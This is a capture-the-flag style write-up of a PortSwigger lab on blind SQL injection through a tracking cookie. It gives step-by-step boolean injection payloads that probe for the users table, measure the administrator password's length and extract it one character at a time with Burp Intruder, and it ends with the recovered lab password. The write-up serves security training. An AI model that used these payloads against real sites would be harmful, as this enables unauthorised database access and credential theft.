 # Lab: Blind SQL injection with conditional responses

Lab-Link: <https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses>  
Difficulty: PRACTITIONER  
Python script: [script.py](script.py)  

## Known information

- vulnerable to blind SQL injection
- parameter: value of tracking cookie
- Result: Page contains "Welcome back" message in TRUE case
- database contains table 'users' with columns 'username' and 'password'
- Goal: Login as user 'administrator'

## Query

The query will look something like

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>'
```

In example case, the cookie contains this content
`Cookie: TrackingId=qnLH78fKAPMJdjw7; session=lcaWJjxc1ubzKT0CsGu2nDEfePtHIni5`

## Steps

### Confirm vulnerable parameter

Due to the type of vulnerability, we can not see any result of the query. However, if we can craft requests that allow for dedicated `good` and `bad` answers, we can ask the database anything it can answer with `TRUE` or `FALSE`.

So as a first step we need to confirm that the parameter is vulnerable by crafting requests that give `good` or `bad` answers.

#### The good case

For the `good` query, we take an input that always evaluates to `TRUE`, like `1=1`.

```sql
SELECT trackingId FROM someTable WHERE trackingId = 'qnLH78fKAPMJdjw7' and 1=1--'
```

The content of the cookie is

`Cookie: TrackingId=qnLH78fKAPMJdjw7' and 1=1--; session=lcaWJjxc1ubzKT0CsGu2nDEfePtHIni5`

--> Results in "Welcome back"

#### The bad case

For the `good` query, we take an input that always evaluates to `FALSE`, like `1=2`.

```sql
SELECT trackingId FROM someTable WHERE trackingId = 'qnLH78fKAPMJdjw7' and 1=2--'
```

The content of the cookie is

`Cookie: TrackingId=qnLH78fKAPMJdjw7' and 1=2--; session=lcaWJjxc1ubzKT0CsGu2nDEfePtHIni5`

--> Does not result in "Welcome back"

As we found vulnerable parameter, I omit session value from now on.

### Confirm expected table

Confirm that the `users` table actually exist. For this, select a string literal from the table and compare the result to the literal.

```sql
SELECT trackingId FROM someTable WHERE trackingId = 'qnLH78fKAPMJdjw7' and  (select 'x' from users LIMIT 1)='x'--
```

Cookie content: `TrackingId=qnLH78fKAPMJdjw7' and (select 'x' from users LIMIT 1)='x'--`

--> Results in "Welcome back"

#### Verify negative result

```sql
SELECT trackingId FROM someTable WHERE trackingId = 'qnLH78fKAPMJdjw7' and  (select 'x' from usersX LIMIT 1)='x'--
```

Cookie content: `TrackingId=qnLH78fKAPMJdjw7' and (select 'x' from usersX LIMIT 1)='x'--`

--> NO "Welcome back"

### Verify columns exist as expected

Now onto the same verification regarding the column names

```sql
SELECT trackingId FROM someTable WHERE trackingId = 'qnLH78fKAPMJdjw7' and (select username from users where username='administrator')='administrator'--
```

Cookie content: `TrackingId=qnLH78fKAPMJdjw7' and (select username from users where username='administrator')='administrator'--`

--> Results in "Welcome back". Negative case with different column name verified.

### Get length of password (could be hash as well)

Find out the length of the password. For this, we use the `LENGTH` function of the database and compare it with numbers.

```sql
SELECT trackingId FROM someTable WHERE trackingId = 'qnLH78fKAPMJdjw7' and (select username from users where username='administrator' and LENGTH(password)=1)='administrator'--
```

Cookie content: `TrackingId=qnLH78fKAPMJdjw7' and (select username from users where username='administrator' and LENGTH(password)=1)='administrator'--`

--> NO "Welcome back", password is not of length 1

Checking with '>' instead of '=' results in "Welcome back", so password is >

Brute force length with Burp Intruder (Sniper, Payload is '1' argument in query)

![Enumerate length of password](img/length_of_password.png)

![Enumerate length of password full results](img/length_of_password_result.png)

--> Password is exactly 20 characters long

### Enumerate password of administrator

Now that we have the length of the password, we can brute force each character individually. If the database would store a hash of the password, we could extract the hash for offline cracking.

```sql
SELECT trackingId FROM someTable WHERE trackingId = 'qnLH78fKAPMJdjw7' and (select substring(password,1,1) from users where username='administrator')='a'--
```

Cookie content: `TrackingId=qnLH78fKAPMJdjw7' and (select substring(password,1,1) from users where username='administrator')='a'--`

We find out that the first character is not an `a`, but using Burp Suite Intruder this can be automated easily. With the free version, this is rather slow, but scripting it in python is not difficult either.

![Enumerate first character of password](img/enumerate_password_first.png)

First character is 'k'

#### Automate this

Now automate this for all characters, again using either Burp Intruder or a python script.

Attack type: *Cluster bomb*

![Cluster bomb setup](img/enumerate_password_cluster_bomb.png)

- *Payload 1*: numeric sequential, 1...20
- *Payload 2*: Brute force (see above) - for real-life, add special characters

This results in these responses with the 'Welcome Back' message:

![Result of password enumeration](img/enumerate_password_result.png)

Reordering it numerically according to Payload 1 will result in the password: kdd113dnq7t34h70nhj7

## Try login

![Login successful](img/Win.png)
